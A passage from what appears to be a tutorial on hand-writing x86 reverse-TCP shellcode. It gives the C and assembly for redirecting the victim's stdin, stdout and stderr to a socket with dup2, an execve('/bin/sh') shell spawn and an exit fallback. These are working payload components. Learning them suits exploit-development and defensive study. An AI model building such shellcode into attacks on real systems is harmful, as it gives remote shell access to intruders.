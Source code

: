 4. Redirection of victim's stdin, stdout and stderr. 

    * This is how we did it in C. 
    
            //Redirect stdin, stdout and stderr to that socket
            dup2(sock_fd, 0);
            dup2(sock_fd, 1);
            dup2(sock_fd, 2);

    * It is pretty straight forward in x86 now. 

        * Find the system call number of **dup2** and load it into **eax**.
        * **ebx** already has **sock_fd**.
        * **ecx** = 0, 1 or 2. 

    * Here is the x86 code for this: 


            mov eax, 63
            ; ebx already has the File Descriptor
            mov ecx, 0x00
            int 0x80

            mov eax, 63
            mov ecx,0x01
            int 0x80

            mov eax, 63
            mov ecx, 0x2
            int 0x80
        
            ; Redirection done

5. Get a shell: 

    * Let us use the code we had written in the previous post here. 

            ; execve("/bin/sh", argv, 0x00)
            xor eax, eax            ; Set eax = 0
            push eax

            push 0x68732f2f
            push 0x6e69622f

            mov ebx, esp

            push eax
            push ebx

            mov ecx, esp

            xor edx, edx            ; Set edx = 0
            mov al, 0xb             ; Set eax = 0xb
            int 0x80


With that, we have completed writing assembly code for all 5 steps. 

6. Let us add code for **exit** in case the reverse-tcp assembly code fails. 

        mov eax, 0x01
        mov ebx, 0x00
        int 0x80

